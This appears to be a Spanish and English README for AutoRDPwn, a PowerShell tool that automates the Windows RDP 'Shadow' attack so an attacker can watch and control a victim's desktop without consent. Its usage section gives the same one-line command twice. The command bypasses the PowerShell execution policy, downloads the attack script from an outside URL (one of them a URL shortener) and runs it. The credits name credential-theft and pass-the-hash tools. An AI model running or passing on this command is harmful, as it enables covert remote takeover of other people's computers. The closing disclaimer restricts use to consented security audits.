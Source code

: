 
![AutoRDPwn](https://user-images.githubusercontent.com/34335312/45109339-8b203580-b13f-11e8-9de7-1210114313bb.png)



**AutoRDPwn** es un script creado en Powershell y diseñado para automatizar el ataque **Shadow** en equipos Microsoft Windows. Esta vulnerabilidad permite a un atacante remoto visualizar el escritorio de su víctima sin su consentimiento, e incluso controlarlo a petición. Para su correcto funcionamiento, es necesario cumplir los requisitos que se describen en la guía de uso.


# Requisitos
Powershell 5.0 o superior


# Cambios

## Versión 4.0
• Resuelto un bug en la tarea programada para eliminar el usuario AutoRDPwn

• El ataque Scheluded Task ha sido reemplazado por Invoke-Command

• Ahora es posible elegir el idioma de la aplicación y lanzar el ataque a versiones inglesas de Windows

*El resto de cambios se pueden consultar en el fichero CHANGELOG


# Uso
**Ejecución en una línea:**

powershell -ExecutionPolicy Bypass "cd $env:TEMP ; iwr https://darkbyte.net/autordpwn.php -Outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"

**La guía detallada de uso se encuentra en el siguiente enlace:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Licencia
Este proyecto está licenciando bajo la licencia GNU 3.0 - ver el fichero LICENSE para más detalles.


# Créditos y Agradecimientos
• **Mark Russinovich** por su herramienta PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• **Stas'M Corp.** por su herramienta RDP Wrapper -> https://github.com/stascorp/rdpwrap

• **Kevin Robertson** por su herramienta Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• **Benjamin Delpy** por su herramienta Mimikatz -> https://github.com/gentilkiwi/mimikatz


# Contacto
Este software no ofrece ningún tipo de garantía. Su uso es exclusivo para entornos educativos y/o auditorías de seguridad con el correspondiente consentimiento del cliente. No me hago responsable de su mal uso ni de los posibles daños causados por el mismo.

Para más información, puede contactar a través de info@darkbyte.net

-------------------------------------------------------------------------------------------------------------
# English description

**AutoRDPwn** is a script created in Powershell and designed to automate the **Shadow** attack on Microsoft Windows computers. This vulnerability allows a remote attacker to view his victim's desktop without his consent, and even control it on request. For its correct operation, it is necessary to comply with the requirements described in the user guide.

# Requirements
Powershell 5.0 or higher

# Changes
## Version 4.0
• Fixed a bug in the scheduled task to remove the user AutoRDPwn

• The Scheluded Task attack has been replaced by Invoke-Command

• It is now possible to choose the language of the application and launch the attack on English versions of Windows

*The rest of the changes can be consulted in the CHANGELOG file

# Use
**Execution in a line:**

powershell -ExecutionPolicy Bypass "cd $ env: TEMP; iwr https://goo.gl/HSkAXP -Outfile AutoRDPwn.ps1;. \ AutoRDPwn.ps1"

**The detailed guide of use can be found at the following link:**

https://darkbyte.net/autordpwn-la-guia-definitiva

# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.

# Credits and Acknowledgments
• **Mark Russinovich** for his tool PsExec -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• **Stas'M Corp.** for its RDP tool Wrapper -> https://github.com/stascorp/rdpwrap

• **Kevin Robertson** for his tool Invoke-TheHash -> https://github.com/Kevin-Robertson/Invoke-TheHash

• **Benjamin Delpy** for his tool Mimikatz -> https://github.com/gentilkiwi/mimikatz

# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can contact through info@darkbyte.net
